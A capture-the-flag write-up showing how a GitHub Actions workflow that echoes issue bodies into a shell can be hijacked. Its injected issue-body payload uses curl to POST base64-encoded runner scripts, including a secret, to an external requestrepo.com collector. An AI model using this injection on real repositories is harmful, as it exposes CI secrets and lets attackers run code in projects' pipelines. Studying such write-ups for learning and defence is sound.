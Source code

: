 # Geet-into-reaction

## The Problem

Points: 500

Rating: hard

Author:

Flavor Text:

```
Communication is required skill! Can you communicate between different jobs and succeed? Checkout how we are communicating between jobs through issues: https://github.com/hackpack-ncsu/geet-into-reaction
```

![open.png](open.png)

## Solution

This chalenge is similar to [Geet-into-action](../Geet-into-ation) where we are working out how to inject into the action script process some date export


the important bit here is in the parse:
```
name: Parse Issue Body

on: [issues]
permissions:
  issues: write
jobs:
  parse_body:
    if: ${{ startsWith(github.event.issue.title, '[parse]')}}
    runs-on: ubuntu-latest
    timeout-minutes: 3
    permissions:
      issues: write
    outputs:
      parsed_link: ${{ steps.parse.outputs.parsed_link }}
    steps:
    - name: Parsing the issue body
      id: parse
      run: |
        echo "${{ github.event.issue.body }}" > body
        cat body
        grep "^Link:" body | cat > temp
        cat temp
        sed 's/Link: //' temp > parsed_link
        echo ::set-output name=parsed_link::$(cat parsed_link)
  process:
    runs-on: ubuntu-latest
    timeout-minutes: 3
    needs: parse_body
    steps:
      - run: echo ${{ secrets.FLAG2 }}
      - run: |
          echo ${{ needs.parse_body.outputs.parsed_link }}
  end:
    if: ${{ always() }}
    runs-on: ubuntu-latest
    steps:
    - run: echo https://api.github.com/repos/${{github.repository}}/issues/${{github.event.issue.number}}
    - run: |
        curl \
        -X PATCH \
        -H "Authorization: token ${{ github.token }}" \
        -H "Accept: application/vnd.github.v3+json" \
        https://api.github.com/repos/${{github.repository}}/issues/${{github.event.issue.number}} \
        -d '{"title":"This is new title", "body": "action run finished"}'

```
so we have to create the post with [parse] at the start of the issue title

and something that can be parsed as a link using "Link:" 

and then the webpost using the bash history as the source. this caused the output to reformat so it passes

there is however no easy file to grab as the command we are interested in" echo ${{ secrets.FLAG2 }}" only prints the output of the env variable this time around. 

After some research I found that remotely accessing the shell history and I got nothing but errors trying to run "history" as the command. I found this nugget: cat /home/runner/work/_temp/*.sh and included a simple encoding |base64 so that the commands wont just run again and can be dumped into the POST body(I am not 100% sure this ended up being necessary but I watched as someone else tryed it)

I also learned about another easy site tool http://requestrepo.com/, this one is a little better at keeping the logs to the user that generated the url.

![issues.png](issues.png)

```
"; echo "Link: 5; curl -X POST -d "$(echo '"$(cat /home/runner/work/_temp/*.sh|base64)"')" http://cvji9loh.requestrepo.com/
```

I followed the git action log to make sure the formating worked. This did take some trial and error to get correct.

![gitaction.png](gitaction.png)

this resulted in a post to our url

![thepostback.png](thepostback.png)



decode it and 
```
ZWNobyBmbGFne2YwMTEwd190aDNfZmwwd19vZl9kQHRAfWVjaG8gNTsgY3VybCAtWCBQT1NUIC1kICIkKGNhdCAvaG9tZS9ydW5uZXIvd29yay9fdGVtcC8qLnNofGJhc2U2NCkiIGh0dHA6Ly9jdmppOWxvaC5yZXF1ZXN0cmVwby5jb20vCg==
```
![decode.png](decode.png)

## Flag

```
flag{f0110w_th3_fl0w_of_d@t@}
```

